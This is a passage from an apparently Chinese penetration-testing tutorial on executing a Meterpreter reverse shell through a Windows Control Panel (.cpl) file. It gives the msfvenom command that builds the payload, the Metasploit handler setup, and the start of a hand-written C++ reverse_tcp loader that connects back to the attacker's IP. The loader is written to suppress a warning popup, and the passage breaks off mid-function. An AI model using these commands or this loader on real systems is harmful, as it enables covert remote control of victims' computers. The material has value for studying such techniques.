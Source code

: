 **生成test.cpl：**

```
msfvenom -p windows/meterpreter/reverse_tcp -b '\x00\xff' lhost=192.168.127.132 lport=8888 -f dll -o test.cpl

```

**msf：**

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.127.132
set LPORT 8888
exploit

```

双击test.cpl后弹回meterpreter shell  
但是同样在退出的时候会弹框提示程序兼容性助手

0x04 解决问题
=========

* * *

1、正常dll执行后弹框
------------

经过测试发现，原有是因为vc6.0的版本低导致的程序兼容问题  
所以换在vs2008(或者更新的版本)下开发就不会存在这个问题

如图

![Alt text](http://drops.javaweb.org/uploads/images/cd72e44881f77c79f0e28f206f2427a92e9abbe9.jpg)

2、解决meterpreter弹框的问题
--------------------

这里不深入探究msfvenom的生成方式，解决方法为使用c++程序自己编写一个meterpreter的reverse_tcp版本  
**关键代码：**

```
#include "Windows.h"
#include <WinSock2.h>
#include <stdio.h>  

#pragma comment(lib,"WS2_32.lib")   

int reverse_tcp()
{
    WSADATA wsData;
        if(WSAStartup(MAKEWORD(2,2),&wsData))
        {
            printf("WSAStartp fail.\n");
            return 0;
        } 

        SOCKET sock = WSASocket(AF_INET,SOCK_STREAM,0,0,0,0);
        SOCKADDR_IN server;
        ZeroMemory(&server,sizeof(SOCKADDR_IN));
        server.sin_family = AF_INET;
        server.sin_addr.s_addr = inet_addr("192.168.127.132"); //server ip
        server.sin_port = htons(8888); //server port
        if(SOCKET_ERROR == connect(sock,(SOCKADDR*)&server,sizeof(server)))
        {
            printf("connect to server fail.\n");
            closesocket(sock);
```